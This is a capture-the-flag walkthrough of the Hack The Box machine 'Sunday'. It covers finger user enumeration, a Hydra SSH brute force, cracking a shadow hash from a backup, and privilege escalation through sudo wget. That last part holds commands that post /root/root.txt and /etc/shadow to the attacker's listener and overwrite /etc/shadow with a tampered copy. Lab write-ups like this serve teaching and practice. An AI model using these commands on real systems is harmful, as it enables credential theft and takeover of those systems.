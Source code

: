 # Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.1 [Enumerating Finger](#Enumerating-Finger)
	
2. [Lateral movement](#Lateral-movement)
3. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>finger protocol</li>
	<li>scanning all ports</li>
	<li>hydra</li>
	<li>linux password storage</li>
</ul>
</details>

### Enumeration
**IP Address** 10.10.10.76 
#### Nmap
First of all, in this machine is *very* important to run a scan through all the ports, as there are some of them that are not included in the common ports that *nmap* scans by default.

After running a full scan, the results are:
```shell
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-06 06:56 EDT
Nmap scan report for 10.10.10.76
Host is up (0.065s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
48574/tcp open  unknown
63699/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2001.36 seconds
```

Once we have this preview of all the ports that are open, I usually run a more detailed scan such as:

```shell
sudo nmap -sC -sV -O -Pn -p 79,111,22022,48574,63699 10.10.10.76
[sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-06 07:33 EDT
Nmap scan report for 10.10.10.76
Host is up (0.067s latency).

PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
48574/tcp open  rpcbind
63699/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|phone
Running: Linux 2.4.X|2.6.X, Sony Ericsson embedded
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.74 seconds
```

And now its time to start working.

#### Enumerating Finger
Finger is a protocol that allows us to obtain information from users. After a little research, I found the following [script](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) to enumerate users. The results were as follow:

![Image 1](pictures/sunday-01.png)

Here I focused at the user *sammy* at first, but after a little research, I found the user *sunny* interesting as well. 
With a little [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-finger) and some other blogs, I found some commands to go on enumerating this two users:

![Image 1](pictures/sunday-02.png)

User *sunny* got a similar output, so I started considerating both users as candidates.

Once here, I spent a lot of time trying to execute commands by *finger* and trying to get some useful information from the other ports. While I was doing this, I left two hydra scripts trying to bruteforce the *ssh* (as it was an easy CTF machine, it made sense to do a little bruteforcee). When I hadn´t found nothing on the other branch of the research, I surprisingly founded the following result:

```shell
hydra -l sunny -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.76:22022 
```

![Image 1](pictures/sunday-03.png)

So here I was with an ssh accesss. Remember to specify the port 22022 to establish the connection.

FAQ:
In order to fix the following message when trying to establish an ssh connections:

```shell
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```
The steps are as follow:
```shell
1. Edit the file /etc/ssh/ssh_config adding to the last line
KexAlgorithms diffie-hellman-group1-sha1

2. ssh-keygen -A
```

Once this is done, the ssh connection will be allowed.


### Lateral movement

Once I had a shell as the user sunny, I confirmed that there was another user named sammy. And this was the user that was needed in order to get the flag.

After going around for a while through different directories, I found an interesting file at the route:
```shell
sunny@sunday:~$ ls /backup/                                                     
agent22.backup  shadow.backup 
```

When I read the file, I found a hash, so I saved it in my machine to crack it with john the ripper.
```shell
cat sam.hash                                                                   
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
```
After a few seconds, I already got the password 

![Image 1](pictures/sunday-04.png)


### Privesc

It is possible to log in with the user sammy by ssh and running the command *su sammy* in the running session as sunny. However, this command is a little bit tricky, as you change the user but the prompt doesn´t change.
I prefered to establish a new ssh session to get the flag and start the privesc:

![Image 1](pictures/sunday-09.png)

The first command I usually run in order to perform a privilege escalation in linux is 

```shell
sudo -l
```
With this command, we can discover if the user can run something as *sudo*, as you can see in the following results:
```shell
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
sammy@sunday:~$ 
```

Once we know we can run *wget* as sudo, is time to visit [gtfobins](https://gtfobins.github.io/)
This webpage will alllow us to know what should we execute in order to get advantage of this configuration and get a privesc.

![Image 1](pictures/sunday-05.png)

In this case, we have a possibility to send and receive files.

My first though was to send to my machine the file */root/root.txt*. 
- Kali:
```shell
nc -lvp 9001
```
- Sunday:
```shell
sudo /usr/bin/wget --post-file=/root/root.txt http://10.10.16.9:9001
```
This worked, but I was more ambitious and wanted to get a shell as root.

In order to achieve this, I got the following idea:
If I can send and write files as root, I could send the */etc/shadow* to my machine, tamper it writing the hash of the user *sammy* at the *root* field and then I´d be able to get a shell as root with a simple *sudo su* + sammy' s password.

It worked with the following commands:
- Kali:
```shell
nc -lvp 9001
```
- Sunday:
```shell
sudo /usr/bin/wget --post-file=/etc/shadow http://10.10.16.9:9001
```
Here, I got the following file:

![Image 1](pictures/sunday-06.png)

I edited the file to delete all the http request input and to tamper the hash, the result was this:

![Image 1](pictures/sunday-07.png)

Once done, I established a server in my machine in order to get the new shadow file and save it at the original path */etc/shadow*

- Sunday:
 ```shell
sudo /usr/bin/wget http://10.10.16.9:8000/shadow -O /etc/shadow
```

![Image 1](pictures/sunday-08.png)


And with that last step, I got a root shell. I don´t really know if that was the intended way to do it, but it worked for me :)

Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot for reading! 





